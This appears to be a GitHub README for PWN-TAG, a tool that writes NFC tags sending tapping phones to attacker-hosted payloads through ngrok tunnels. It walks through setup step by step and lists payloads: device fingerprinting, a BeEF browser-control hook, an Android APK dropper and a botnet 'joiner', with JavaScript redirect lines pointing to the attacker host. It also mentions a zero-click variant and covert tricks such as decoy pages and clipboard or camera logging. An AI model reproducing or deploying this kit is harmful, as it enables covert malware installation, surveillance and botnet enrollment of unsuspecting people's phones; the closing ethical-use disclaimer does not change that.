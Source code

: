 # PWN-TAG  OG this version works best for non paid ngrok accounts

there are 2 branches in this repository:

-the main branch is for no zero click payload 
delivery due to no paid ngrok accout.

and the pwn_tag_pro branch allows for android zero click payload drlivery with paid ngrok account. 

---
PWN TAG _"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

## Branches

| Branch         | Purpose                                                                 |
|----------------|-------------------------------------------------------------------------|
| `main`         | Free-tier version using randomized ngrok URLs (requires tap + confirm) |
| `ngrok-pro`    | Paid ngrok version with static subdomains → enables **zero-click** payloads |

Switch branches like this:

```bash
git checkout ngrok-pro
````

---

##  What You Need

*  NFC tag stickers (\~\$10 for 25):
  [https://a.co/d/gl2XRV8](https://a.co/d/gl2XRV8)

*  NFC writer app (free):
  [https://apps.apple.com/app/id1252962749](https://apps.apple.com/app/id1252962749)

*  A Debian-based Linux system 

*  A [ngrok](https://ngrok.com/) account (free or paid)

---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
```

# (Optional) Switch to pro version for static subdomain support

```bash
git checkout ngrok-pro
```
# Install Python dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask
```

## ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Then authenticate your token: [https://ngrok.com/](https://ngrok.com/)

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```


---

##  Usage (4 Terminal Workflow)

### Terminal 1 — Start Payload Server

```bash
python3 -m http.server 8080
```

This serves your payloads at `http://localhost:8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http 8080
```

Copy the `https://...ngrok.app` URL — this becomes your **NFC tag link**.

---

### Terminal 3 — Edit Payload Redirector

```bash
nano payloads/test_shell.html
```

Update this line with your current ngrok URL:

```javascript
window.location.href = "https://your-ngrok-subdomain.ngrok.app/payloads/bot_joiner.html";
```

---

### Terminal 4 — Start Listener

```bash
python3 listener.py
```

Logs any device fingerprinting or interaction data sent by payloads.

---

## Write Your NFC Tag

Using your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste something like:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap “Write” to encode it

 Now when someone taps the tag, it opens the redirector → logs the device → delivers your payload.

---

##  Payload Options (Examples & Use Cases)

| Payload               | Path                       | Description                                                         |
| --------------------- | -------------------------- | ------------------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint (user agent, screen size, timezone) then redirects |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads a BEEF hook for browser control (if server is running)        |
| **APK Dropper**       | `payloads/spy.apk`         | Sends Android users a direct APK (custom implants welcome)          |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue Botnet join — connect, beacon, execute JS           |

---

##  Swapping Payloads (Beginner-Friendly)

1. Open `payloads/test_shell.html`
2. Change this line:

```javascript
window.location.href = "https://your-ngrok.ngrok.app/payloads/YOUR_FILE_HERE";
```

3. Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 No need to rewrite the NFC tag if you're using a static domain — just update the file.

---

##  Pro Tips

*  Make multiple redirectors (`redirect_to_apk.html`, etc.)
*  Make `index.html` a 403 decoy or fake blog
*  Want geolocation? Use `https://ipinfo.io/json` in your JS
*  Want deep traps? Chain to `clipboard.js`, `camlog`, etc. before redirect
*  With static domains (`ngrok-pro`), your NFC tags are reusable forever

---

##  Ethical Usage

This tool is intended for **educational purposes, red-team ops, and ethical testing only**.
You are responsible for your actions. Do not use this on devices or individuals without consent.

